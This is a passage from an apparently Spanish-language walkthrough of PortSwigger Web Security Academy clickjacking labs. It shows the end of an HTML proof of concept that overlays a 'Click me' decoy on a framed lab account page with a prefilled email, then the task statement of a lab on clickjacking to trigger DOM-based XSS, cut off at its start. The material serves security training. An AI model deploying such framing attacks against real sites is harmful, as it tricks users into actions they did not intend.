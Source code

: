 ```
                z-index:1;
            }
        </style>
    </head>
    <body>
        <div id="decoyWebsite">Click me</div>
        <iframe id="targetWebsite" src="https://0a070031032b0c1780129964000a0090.web-security-academy.net/my-account?email=prueba@prueba.com" sandbox="allow-forms"></iframe>
    </body>
</html>
```

Enviamos a la víctima.

<figure><img src="../../.gitbook/assets/image (1499).png" alt=""><figcaption></figcaption></figure>

## Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

### Enunciado

Este laboratorio contiene una vulnerabilidad XSS que se activa al hacer clic. Construye un ataque de clickjacking que engañe al usuario para que haga clic en el botón "Click me" y ejecute la función `print()`.

> La víctima usará **Chrome**, así que asegúrate de **probar tu exploit en ese navegador**.

### Resolución

Enviamos un mensaje.
